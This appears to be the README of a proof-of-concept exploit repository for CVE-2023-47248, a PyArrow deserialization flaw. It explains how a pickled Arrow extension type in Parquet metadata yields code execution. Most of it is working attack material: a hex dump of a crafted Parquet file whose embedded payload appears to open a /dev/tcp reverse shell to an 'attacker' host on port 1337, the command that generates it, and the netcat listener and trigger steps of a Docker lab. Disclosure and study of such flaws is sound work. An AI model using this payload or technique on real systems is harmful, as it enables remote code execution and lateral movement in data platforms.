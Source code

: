 # CVE-2023-47248

This project contains proof of concept exploit implementations for
[CVE-2023-47248](https://nvd.nist.gov/vuln/detail/CVE-2023-47248):

> Deserialization of untrusted data in IPC and Parquet readers in PyArrow versions 0.14.0 to 14.0.0 allows arbitrary
code execution. An application is vulnerable if it reads Arrow IPC, Feather or Parquet data from untrusted sources.

RCE happens due to unsafe unpickling of user-defined Arrow types created as subclasses of the `PyExtensionType` class
(which was deprecated in version 14.0.1). The `__reduce__` magic method of the user-defined type class can be crafted
in such a way that it executes malicious code (e.g., a reverse shell payload) when the object is unpickled.

## Exploit PoCs

### Parquet

The `exploit_parquet.py` Python script generates a Parquet file that establishes a reverse shell when read by the
vulnerable PyArrow library versions. This Parquet file is used in the Docker-based PoC scenarios to demonstrate how
threat actors can use it. For example, for lateral movement within data platforms if they obtain access to the data
lake.

<img src="images/poc_parquet_image.png">

The `poc_parquet/data` directory contains two Parquet files: `benign.parquet` and `malicious.parquet`. The former is a
simple Parquet file with legit data, while the latter is an evil file that reproduces the same schema as the benign file
but contains a malicious pickled Arrow type object in the metadata:

```
$ parquet-tools show poc_parquet/data/benign.parquet
+------+--------+
|   id | name   |
|------+--------|
|    1 | alice  |
|    2 | bob    |
+------+--------+
```

```
$ r2 -qc 'px $s' poc_parquet/data/benign.parquet 
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x00000000  5041 5231 1500 152c 1530 2c15 0415 0015  PAR1...,.0,.....
0x00000010  0615 0600 0016 5402 0000 0004 0101 0000  ......T.........
0x00000020  0000 0000 0002 0000 0000 0000 0015 0015  ................
0x00000030  2c15 302c 1504 1500 1506 1506 0000 1654  ,.0,...........T
0x00000040  0200 0000 0401 0500 0000 616c 6963 6503  ..........alice.
0x00000050  0000 0062 6f62 1502 193c 3500 180d 6475  ...bob...<5...du
0x00000060  636b 6462 5f73 6368 656d 6115 0400 1504  ckdb_schema.....
0x00000070  2502 1802 6964 2524 0015 0c25 0218 046e  %...id%$...%...n
0x00000080  616d 6525 0000 1604 191c 192c 2600 1c15  ame%.......,&...
0x00000090  0419 1500 1918 0269 6415 0216 0416 4e16  .......id.....N.
0x000000a0  5226 083c 1808 0200 0000 0000 0000 1808  R&.<............
0x000000b0  0100 0000 0000 0000 1600 2808 0200 0000  ..........(.....
0x000000c0  0000 0000 1808 0100 0000 0000 0000 0000  ................
0x000000d0  0026 001c 150c 1915 0019 1804 6e61 6d65  .&..........name
0x000000e0  1502 1604 164e 1652 265a 3c18 0362 6f62  .....N.R&Z<..bob
0x000000f0  1805 616c 6963 6516 0028 0362 6f62 1805  ..alice..(.bob..
0x00000100  616c 6963 6500 0000 1680 8806 1604 2608  alice.........&.
0x00000110  0028 0644 7563 6b44 4200 c400 0000 5041  .(.DuckDB.....PA
0x00000120  5231
```

The malicious Parquet file is generated by running the `exploit_parquet.py` script:

```
$ pipenv install
$ pipenv run python exploit_parquet.py attacker 1337 poc/data/malicious.parquet
```

The first argument is the attacker's IP address or hostname, and in this particular case it's set to the container name
`attacker` defined in the [Docker Compose](./poc_parquet/docker-compose.yml) file.

The malicious PyArrow schema is stored in the file from offset 0x100 to 0x3e3:
```
$ r2 -qc 'px $s' poc_parquet/data/malicious.parquet
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x00000000  5041 5231 1504 1500 1502 4c15 0015 0012  PAR1......L.....
0x00000010  0000 0026 261c 1504 1925 0006 1918 0269  ...&&....%.....i
0x00000020  6415 0216 0016 1c16 1e26 0026 0829 1c15  d........&.&.)..
0x00000030  0415 0015 0200 0000 1504 1500 1502 4c15  ..............L.
0x00000040  0015 0012 0000 0026 8e01 1c15 0c19 2500  .......&......%.
0x00000050  0619 1804 6e61 6d65 1502 1600 161c 161e  ....name........
0x00000060  2600 2670 291c 1504 1500 1502 0000 0015  &.&p)...........
0x00000070  0419 3c35 0018 0673 6368 656d 6115 0400  ..<5...schema...
0x00000080  1504 2502 1802 6964 0015 0c25 0218 046e  ..%...id...%...n
0x00000090  616d 6525 004c 1c00 0000 1600 191c 192c  ame%.L.........,
0x000000a0  2626 1c15 0419 2500 0619 1802 6964 1502  &&....%.....id..
0x000000b0  1600 161c 161e 2600 2608 291c 1504 1500  ......&.&.).....
0x000000c0  1502 0000 0026 8e01 1c15 0c19 2500 0619  .....&......%...
0x000000d0  1804 6e61 6d65 1502 1600 161c 161e 2600  ..name........&.
0x000000e0  2670 291c 1504 1500 1502 0000 0016 3816  &p)...........8.
0x000000f0  0026 0816 3c14 0000 191c 180c 4152 524f  .&..<.......ARRO
0x00000100  573a 7363 6865 6d61 18d8 052f 2f2f 2f2f  W:schema.../////
0x00000110  7867 4341 4141 5141 4141 4141 4141 4b41  xgCAAAQAAAAAAAKA
0x00000120  4177 4142 6741 4641 4167 4143 6741 4141  AwABgAFAAgACgAAA
0x00000130  4141 4242 4141 4d41 4141 4143 4141 4941  AABBAAMAAAACAAIA
0x00000140  4141 4142 4141 4941 4141 4142 4141 4141  AAABAAIAAAABAAAA
0x00000150  4149 4141 4143 3041 5141 4147 4141 4141  AIAAAC0AQAAGAAAA
0x00000160  4141 4145 6741 5941 4167 4142 6741 4841  AAAEgAYAAgABgAHA
0x00000170  4177 4141 4141 5141 4251 4145 6741 4141  AwAAAAQABQAEgAAA
0x00000180  4141 4141 5155 5541 4141 4165 4145 4141  AAAAQUUAAAAeAEAA
0x00000190  4167 4141 4141 5541 4141 4141 4141 4141  AgAAAAUAAAAAAAAA
0x000001a0  4151 4141 4142 7559 5731 6c41 4141 4141  AQAAABuYW1lAAAAA
0x000001b0  4149 4141 4142 5541 4141 4142 4141 4141  AIAAABUAAAABAAAA
0x000001c0  4c7a 2f2f 2f38 4941 4141 4149 4141 4141  Lz///8IAAAAIAAAA
0x000001d0  4251 4141 4142 4255 6c4a 5056 7a70 6c65  BQAAABBUlJPVzple
0x000001e0  4852 6c62 6e4e 7062 3234 3662 6d46 745a  HRlbnNpb246bmFtZ
0x000001f0  5141 4141 4141 5841 4141 4159 584a 7962  QAAAAAXAAAAYXJyb
0x00000200  3363 7563 486c 665a 5868 305a 5735 7a61  3cucHlfZXh0ZW5za
0x00000210  5739 7558 3352 3563 4755 4143 4141 4d41  W9uX3R5cGUACAAMA
0x00000220  4151 4143 4141 4941 4141 4143 4141 4141  AQACAAIAAAACAAAA
0x00000230  4351 4141 4141 5941 4141 4151 564a 5354  CQAAAAYAAAAQVJST
0x00000240  3163 365a 5868 305a 5735 7a61 5739 754f  1c6ZXh0ZW5zaW9uO
0x00000250  6d31 6c64 4746 6b59 5852 6841 4141 4141  m1ldGFkYXRhAAAAA
0x00000260  4d38 4141 4143 4142 4a58 4541 4141 4141  M8AAACABJXEAAAAA
0x00000270  4141 4141 4977 4a5a 6e56 7559 3352 7662  AAAAIwJZnVuY3Rvb
0x00000280  3278 7a6c 4977 4863 4746 7964 476c 6862  2xzlIwHcGFydGlhb
0x00000290  4a53 546c 4977 4b63 3356 6963 484a 7659  JSTlIwKc3VicHJvY
0x000002a0  3256 7a63 3553 4d42 5642 7663 4756 756c  2Vzc5SMBVBvcGVul
0x000002b0  4a4f 5568 5a52 536c 4368 6f42 536c 396c  JOUhZRSlChoBSl9l
0x000002c0  4369 4d45 584e 3059 584a 3058 3235 6c64  CiMEXN0YXJ0X25ld
0x000002d0  3139 7a5a 584e 7a61 5739 756c 4969 4d42  19zZXNzaW9ulIiMB
0x000002e0  6e4e 305a 4739 3164 4a52 4b2f 662f 2f2f  nN0ZG91dJRK/f///
0x000002f0  3477 4763 3352 6b5a 584a 796c 4572 392f  4wGc3RkZXJylEr9/
0x00000300  2f2f 2f64 5535 306c 474a 646c 4369 4d42  ///dU50lGJdlCiMB
0x00000310  474a 6863 3269 556a 4149 7459 3553 4d4f  GJhc2iUjAItY5SMO
0x00000320  5441 384a 6a55 784c 5474 6c65 4756 6a49  TA8JjUxLTtleGVjI
0x00000330  4455 7850 4434 765a 4756 324c 3352 6a63  DUxPD4vZGV2L3Rjc
0x00000340  4339 6864 4852 6859 3274 6c63 6938 784d  C9hdHRhY2tlci8xM
0x00000350  7a4d 334f 334e 6f49 4477 6d4e 5445 6750  zM3O3NoIDwmNTEgP
0x00000360  6959 314d 5341 7950 6959 314d 5a52 6c68  iY1MSAyPiY1MZRlh
0x00000370  5a52 536c 4573 4259 6934 4142 4141 4541  ZRSlEsBYi4ABAAEA
0x00000380  4151 4141 4141 5141 4251 4143 4141 4741  AQAAAAQABQACAAGA
0x00000390  4163 4144 4141 4141 4241 4145 4141 4141  AcADAAAABAAEAAAA
0x000003a0  4141 4141 5149 5141 4141 4148 4141 4141  AAAAQIQAAAAHAAAA
0x000003b0  4151 4141 4141 4141 4141 4141 6741 4141  AQAAAAAAAAAAgAAA
0x000003c0  476c 6b41 4141 4941 4177 4143 4141 4841  GlkAAAIAAwACAAHA
0x000003d0  4167 4141 4141 4141 4141 4251 4141 4141  AgAAAAAAAABQAAAA
0x000003e0  413d 3d00 1820 7061 7271 7565 742d 6370  A==.. parquet-cp
0x000003f0  702d 6172 726f 7720 7665 7273 696f 6e20  p-arrow version 
0x00000400  3134 2e30 2e30 192c 1c00 001c 0000 00a0  14.0.0.,........
0x00000410  0300 0050 4152 31                        ...PAR1
```

To execute the PoC scenario, first start the Docker containers:
```
$ cd poc_parquet
$ docker-compose up -d
[+] Building 0.0s (0/0)
[+] Running 5/5
✔ Network poc_parquet_default  Created
✔ Container minio              Started
✔ Container vulnerable-service Started 
✔ Container attacker           Started
✔ Container mc                 Started
```

Then connect to the `attacker` container and start a netcat listener on port 1337:
```
$ docker exec -it attacker /bin/bash 
bash-5.0# nc -nlvp 1337
Listening on [0.0.0.0] (family 0, port 1337)
```

Finally, make the vulnerable service read the malicious Parquet file by triggering the exposed HTTP endpoint:
```
$ curl localhost:8080
{"id":[1,2],"name":["alice","bob"]}
```

After that, the reverse shell to the attacker container should be established.
